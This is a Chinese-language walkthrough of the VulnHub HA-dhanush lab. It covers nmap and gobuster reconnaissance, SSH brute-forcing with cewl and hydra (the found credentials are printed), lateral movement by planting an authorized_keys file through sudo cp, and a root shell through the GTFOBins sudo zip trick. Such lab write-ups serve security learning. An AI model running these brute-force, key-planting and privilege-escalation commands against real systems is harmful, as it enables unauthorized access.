# 目标

get **flags**


---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn -n --max-rate 10000
```

靶机的IP地址是 `192.168.64.46`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.46 -sS -sV -Pn -n -p- --max-rate 10000
```


**TCP connection扫描**
```shell
nmap 192.168.64.46 -sT -sV -Pn -n -p- --max-rate 10000
```


**UDP扫描**
```shell
nmap 192.168.64.46 -sU -sV -Pn -n --top-ports 100 --max-rate 10000
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.46 -sV -sC -O -Pn -n -p 80,65345,2 --max-rate 10000
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.46 -sV --script vuln -n -Pn -p 80,65345 --max-rate 10000 -oA nmap-scan/vuln
```
很多信息。

## 1.3 80端口获取信息
**访问一下`http://192.168.64.46`**

不知道是啥文字，看这个网站像是介绍弓箭的。

**扫描网站目录/文件**
```shell
gobuster dir --url=http://192.168.64.46 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,html,jpg,png,jpeg -db
```

`images`文件夹里面有一些图片，`assets`文件夹里面有一些代码文件。可能有图片隐写；代码都是一些样式，好像没什么信息。

## 1.4 65345端口获取信息
```shell
nmap 192.168.64.46 -sV --script ssh-auth-methods.nse,ssh-hostkey.nse -p 65345 -n -Pn
```


---

# 2.建立系统立足点

查看了很多图片，根本没发现什么有用的信息。考虑ssh爆破登陆，先用网站构造小字典，
```shell
cewl -m 4 -d 4 -w site.txt --with-numbers http://192.168.64.46
```
使用*hydra*暴力破解ssh,
```shell
hydra -L site.txt -P site.txt ssh://192.168.64.46 -t 4 -V -s 65345
```
可以找到一个,
- username: `pinak`
- password: `Gandiv`

直接登陆ssh,


---

# 3.系统提权

```shell
sudo -l
```

可以以sarang用户来执行 */bin/cp* 命令，那我们可以考虑加入`authorized_keys`来进行免密登陆。

```shell
# 在kali上面生成靶机支持的密钥
ssh-keygen -t rsa -b 2048 -C ""

# 将id_rsa.pub加入到authorized_keys
cat id_rsa.pub >> authorzed_keys

# 在kali上面开启一个简单的http服务
python3 -m http.server 80

# 在靶机上面获取（pinak用户，在/home/pinak/.ssh目录）
wget http://192.168.64.2/authorized_leys

# 复制到sarang的.ssh配置目录
sudo -u sarang /bin/cp /home/pinak/.ssh/authorized_keys /home/sarang/.ssh/

# 在kali上面登陆sarang用户
ssh -p 65345 -i id_rsa sarang@192.168.64.46
```


```shell
sudo -l
```

在GTFOBins网站上面搜索，

执行，
```shell
sudo /usr/bin/zip /tmp/file /etc/hosts -T -TT '/bin/bash #'
```



---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**HA-dhanush**: 
- website: `https://www.vulnhub.com/entry/ha-dhanush,396/`
- IP: `192.168.64.46`
- CPU Arch: `x86_64`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐